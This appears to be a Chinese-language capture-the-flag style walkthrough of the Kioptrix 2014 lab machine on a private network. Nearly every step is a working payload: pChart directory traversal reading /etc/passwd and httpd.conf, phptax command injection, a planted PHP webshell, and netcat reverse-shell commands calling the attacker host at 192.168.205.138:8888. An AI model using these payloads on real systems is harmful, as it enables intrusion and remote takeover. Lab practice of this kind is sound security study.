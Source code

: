 # level 2014

## 目录穿越漏洞

1. 访问<http://192.168.205.144/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd>  
即可获得passwd文件内容  
2. 访问8080端口
    + 访问<https://cwiki.apache.org/confluence/display/HTTPD/DistrosDefaultLayout>
    + 由nmap扫描得为`80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`  
    + 然后访问<http://192.168.205.144/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf>
    + 查看后发现只需修改代理为`Mozilla/4.0 Mozilla4_browser`,即可正常访问8080端口  
    ![''](./image_holiday/burp.jpg)
3. phptax远程代码执行漏洞  
    + <http://192.168.205.144:8080/phptax/index.php?pfilez=1040pg1.tob;whoami%20%3E%20%20whoami.txt&pdf=make>访问后访问<http://192.168.205.144:8080/phptax/whoami.txt>发现用户为www
4. 构建一句话Webshell`<?php system($_GET["cmd"]); ?>`  
   + <http://192.168.205.144:8080/phptax/index.php?pfilez=1040pg1.tob;echo%20%22%3C?php%20system(\$_GET[\%22cmd\%22]);?%3E%22%20%3E%20shell.php;&pdf=make>进行构建  
   + <http://192.168.205.144:8080/phptax/shell.php?cmd=id>查看是否构建成功  
5. 构建反弹shell  
   + <http://192.168.205.144:8080/phptax/index.php?pfilez=1040pg1.tob;nc%20-e%20/bin/bash%20192.168.205.138%208888;&pdf=make>无反应（nc e命令参数被禁用）  
   + 使用`nc 192.168.205.138 8888 >reverse_shell.php`<http://192.168.205.144:8080/phptax/shell.php?cmd=nc%20192.168.205.138%208888%20%3E%20reverse_shell.php>
   在主机`nc -lvp 8888 < php_reverse_shell.php`(位于`/usr/share/webshells/php`,需要修改**ip,port**)
   + 使用nc监听8888，同时访问<http://192.168.205.144:8080/phptax/reverse_shell.php>

